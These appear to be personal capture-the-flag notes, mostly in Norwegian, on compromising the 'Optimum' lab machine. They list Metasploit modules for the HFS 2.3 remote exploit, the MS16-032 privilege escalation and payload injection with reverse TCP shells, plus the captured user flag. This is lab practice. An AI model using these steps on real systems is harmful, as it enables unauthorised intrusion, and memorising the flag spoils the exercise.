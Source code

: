 ## optimum 10.10.10.8

windows server 2012

nmap port 80

hfs 2.3 server. finnes exploit

kjørte i metasploit exploit/windows/http/rejetto\_hfs\_exec

sett srvhost til samme som lhost men ikke srvport

husk å sette lhost også

`use post/multi/manage/shell_to_meterpreter`

user.txt **d0c39409d7b994a9a1389ebf38ef5f73**

MS16-032 SYSTEM Privilege Escalation

prøvd å laste opp ps1-script og får kjørt det, men prosessen ligger i bakgrunnen.- sjekk ps kommando

må finne en måte å få reverse shell fra powershellet

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

tror denne er riktig.

`use post/multi/recon/local_exploit_suggester`**  **

```
use exploit/windows/local/payload_inject
```

```
set payload windows/powershell_reverse_tcp
```

Import-Module ./lol.ps1

Invoke-MS16-032



gjøre fra 32 til 64 bit shell

`use windows/local/payload_inject`

`set payload windows/x64/meterpreter/reverse_tcp`

